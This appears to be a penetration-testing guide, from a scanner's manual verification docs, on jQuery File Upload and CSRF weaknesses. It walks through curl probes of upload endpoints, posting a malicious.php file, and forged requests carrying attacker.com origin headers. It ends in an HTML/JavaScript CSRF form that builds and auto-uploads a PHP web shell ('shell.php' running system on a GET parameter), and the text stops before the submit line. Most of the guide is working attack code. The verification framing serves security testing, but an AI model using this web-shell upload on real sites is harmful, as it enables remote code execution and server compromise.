 # File Upload + CSRF Manual Verification Guide

## What We Find
Scanner detected file upload functionality:
- jQuery File Upload plugin signatures
- Upload endpoints in source code analysis
- Potential unrestricted file upload paths
- Missing CSRF protection on upload forms

## What We Do

**Step 1: Identify Upload Plugin Signatures**
```bash
# Search for jQuery File Upload patterns in source
curl [TARGET] | grep -i "jquery.*file.*upload"
curl [TARGET] | grep -E "server/php|upload\.php|fileupload"
# Common paths: /plugins/jQuery-file-upload/server/php/
```

**Step 2: Map Upload Endpoints**
```bash
# Test common upload paths
curl -I [TARGET]/upload.php
curl -I [TARGET]/fileupload/
curl -I [TARGET]/plugins/jQuery-file-upload/server/php/
# Look for 200 responses or {"files":[]} output
```

**Step 3: Test File Upload Restrictions**
```bash
# Test malicious file upload
curl -X POST [UPLOAD_ENDPOINT] \
  -F "files[]=@malicious.php" \
  -H "Cookie: [SESSION]"
# Check response for file acceptance/rejection
```

**Step 4: Validate CSRF Protection**
```bash
# Test upload without CSRF token
curl -X POST [UPLOAD_ENDPOINT] \
  -F "files[]=@test.txt" \
  -H "Origin: https://attacker.com" \
  -H "Referer: https://attacker.com"
```

**Step 5: Construct CSRF Upload Attack**
```html
<!-- Malicious auto-upload form -->
<form id="uploadForm" action="https://target.com/upload.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="files[]" id="fileInput">
</form>
<script>
// Create malicious PHP file
const fileContent = '<?php system($_GET["cmd"]); ?>';
const blob = new Blob([fileContent], {type: 'application/x-php'});
const file = new File([blob], 'shell.php', {type: 'application/x-php'});

// Simulate file selection
const dataTransfer = new DataTransfer();
dataTransfer.items.add(file);
document.getElementById('fileInput').files = dataTransfer.files;

// Auto-submit form
```